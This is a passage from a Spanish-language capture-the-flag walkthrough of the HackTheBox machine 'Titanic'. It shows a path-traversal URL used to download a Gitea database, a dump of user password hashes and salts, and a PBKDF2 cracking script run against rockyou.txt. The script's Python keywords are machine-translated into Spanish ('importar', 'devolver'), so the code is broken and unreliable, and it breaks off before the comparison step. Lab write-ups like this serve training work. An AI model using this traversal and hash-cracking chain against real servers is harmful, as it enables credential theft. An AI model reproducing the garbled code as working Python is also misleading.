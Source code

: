 ```c

```

En este archivo encontraremos un `.db` en la ruta `/data/gitea/gitea.db` donde encontraremos credenciales.

# shell - Developer

Para descargar el archivo .db debemos ir a la ruta: `http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db` 

En este archivo encontraremos credenciales para el usuario administrator, developer y el usuario que creamos.

```c
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
3|seven|seven||seven@seven.com|0|enabled|b606fd9646c1c971d3a5dbba8c3b8795f601aa598a095c103ee05299e11386efd4968f90ca323c1a59ecf2b0f8092d0b54ba|pbkdf2$50000$50|0|0|0||0|||480e0f702900bf8d57e2a92af85147e5|cf6aa99694c16c9a91b99391fb71efdc|en-US||1756505443|1756506282|1756506228|0|-1|1|0|0|0|0|1|0|b1ac3f8df46474ad80145e6f017c943e|seven@seven.com|0|0|0|0|0|0|0|0|0|unified|gitea-auto|0
sqlite> 

```

Luego de investigar un poco sobre el hash y como crackearla, encontré una maquina similar para poder crackear el hash.

- [https://thecybersecguru.com/ctf-walkthroughs/mastering-compiled-beginners-guide-from-hackthebox/](https://thecybersecguru.com/ctf-walkthroughs/mastering-compiled-beginners-guide-from-hackthebox/)

Revisamos el articulo y encontraremos un script que nos ayudara a crackear la contraseña.

```c
importar hashlib
importar binascii
del registro de importación de pwn
# Parámetros de gitea.db
sal = binascii.unhexlify('227d873cca89103cd83a▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒') # 16 bytes
clave = '97907280dc24fe517c43475bd218bfad56c25d4d11037d▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒'
dklen = 50
iteraciones = 50000
def hash(contraseña, sal, iteraciones, dklen):
    valorHash = hashlib.pbkdf2_hmac(
        nombre_hash='sha256',
        contraseña=contraseña,
        sal=sal,
        iteraciones=iteraciones,
        dklen=dklen,
        )
    devolver valor hash
# Grieta
dict = '/usr/share/wordlists/rockyou.txt'
bar = log.progress('Descifrando PBKDF2')
con open(dict, 'r', encoding='utf-8') como f:
    para la línea en f:
        contraseña = línea.strip().encode('utf-8')
        hashValue = hash(contraseña, sal, iteraciones, dklen)
        objetivo = binascii.unhexlify(clave)
```